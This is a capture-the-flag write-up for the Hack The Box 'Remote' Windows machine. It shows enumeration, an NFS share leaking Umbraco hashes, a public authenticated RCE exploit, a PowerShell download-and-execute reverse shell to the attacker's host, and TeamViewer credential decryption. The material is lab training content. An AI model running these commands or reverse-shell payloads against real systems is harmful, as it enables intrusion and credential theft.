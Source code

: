 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Remote/logo.png
date: 2023-12-16 09:45:47+07:00
machine_author:
  link: https://app.hackthebox.com/users/2984
  name: mrb3n
modified: 2023-12-16 09:45:47+07:00
tags:
- Remote
- NFS
- Anonymous
- decrypt
- CME
- Umbraco
- CVE-2019-18988
- Teamviwer
- Nishang
- Windows
- OSCP
- Writeup
title: Remote
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



Remote is an easy difficulty Windows machine that features an Umbraco CMS installation. Credentials are found in a world-readable NFS share. Using these, an authenticated Umbraco CMS exploit is leveraged to gain a foothold. A vulnerable TeamViewer version is identified, from which we can gain a password. This password has been reused with the local administrator account. Using `psexec` with these credentials returns a SYSTEM shell. 

### Difficulty:

`Easy`


# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 10.10.10.180`

`nmap -sC -sV -p21,22,80,135,139,445,5985,39517 10.10.10.180 -oA ./nmap/remote `

|Ports|Service
|21| ftp     Microsoft ftpd
|80| http    Microsoft HTTPAPI httpd 2.0 
|111| rpcbind
|139| netbios-ssn Microsoft Windows netbios-ssn
|445| microsoft-ds
|2049| nlockmgr
|5985| Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

![](https://photos.squarezero.dev/file/abir-images/Remote/1.png)

First I checked the FTP server. It allowed for anonymous login but it was empty.

![](https://photos.squarezero.dev/file/abir-images/Remote/2.png)

Next, I check out the website. On the `/people` there are some names we can take notes of.

![](https://photos.squarezero.dev/file/abir-images/Remote/3.png)

I ran `dirsearch` in the background and found some interesting directories.

```Bash
dirsearch -u http://10.10.10.180 -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -t 20 -f -e php,txt,html,aspx
```

![](https://photos.squarezero.dev/file/abir-images/Remote/4.png)

We can find a login page at `/umbraco` which is a CME. 

![](https://photos.squarezero.dev/file/abir-images/Remote/5.png)

We can find a NFS share.

![](https://photos.squarezero.dev/file/abir-images/Remote/6.png)

Let's mount the share.

```bash
mkdir target-NFS
sudo mount -t nfs 10.10.10.180:/site_backups ./target-NFS -o nolock
cd target-NFS
```
![](https://photos.squarezero.dev/file/abir-images/Remote/7.png)


# Foothold

After looking for a bit I found `Umbraco.sdf` and we can password hashes for users inside it

![](https://photos.squarezero.dev/file/abir-images/Remote/8.png)

I used [crackstation](https://crackstation.net/)

![](https://photos.squarezero.dev/file/abir-images/Remote/9.png)

Creds → `admin@htb.local : baconandcheese`

I can now log into the website admin panel.

![](https://photos.squarezero.dev/file/abir-images/Remote/10.png)

After looking for a bit I found this authenticated RCE exploit from [ExploitDB](https://www.exploit-db.com/exploits/49488). I downloaded the Python file and checked out the payload.
It takes the user and password for authentication, takes the type of shell and uses arguments to execute.

![](https://photos.squarezero.dev/file/abir-images/Remote/11.png)

We have RCE on the server now.

```bash
python3 payload.py -u "admin@htb.local" -p "baconandcheese" -i "http://10.10.10.180" -c powershell.exe -a "whoami"
```

![](https://photos.squarezero.dev/file/abir-images/Remote/12.png)

Next, I used [Nishang](https://github.com/samratashok/nishang) `Invoke-PowerShellTcp.ps1` to get a shell.

At the bottom of the PowerShell script, I added my reverse shell IP and port.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 4444`

Then hosted the payload using the python3 server.

`python3 -m http.server`

After that I used RCE payload to download my PowerShell script and get a shell

```bash
python3 payload.py -u "admin@htb.local" -p "baconandcheese" -i "http://10.10.10.180" -c powershell.exe -a "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.16:8000/Invoke-PowerShellTcp.ps1')"
```

![](https://photos.squarezero.dev/file/abir-images/Remote/13.png)

![](https://photos.squarezero.dev/file/abir-images/Remote/14.png)

![](https://photos.squarezero.dev/file/abir-images/Remote/15.png)


# Privilege Escalation

In tasklist We can see `TeamViewer_Service.exe`

![](https://photos.squarezero.dev/file/abir-images/Remote/16.png)

After looking for a bit I found this [CVE-2019-18988](https://github.com/mr-r3b00t/CVE-2019-18988/blob/master/manual_exploit.bat) where Teamviwer leaking creds.

![](https://photos.squarezero.dev/file/abir-images/Remote/17.png)

We can leak the creds using this

`reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7`

![](https://photos.squarezero.dev/file/abir-images/Remote/18.png)

Next, I used this decryptor to decrypt the password. 

![](https://photos.squarezero.dev/file/abir-images/Remote/19.png)

Creds → `administrator : !R3m0te!`

Now we can use WINRM to log in and get the flag.


![](https://photos.squarezero.dev/file/abir-images/Remote/20.png)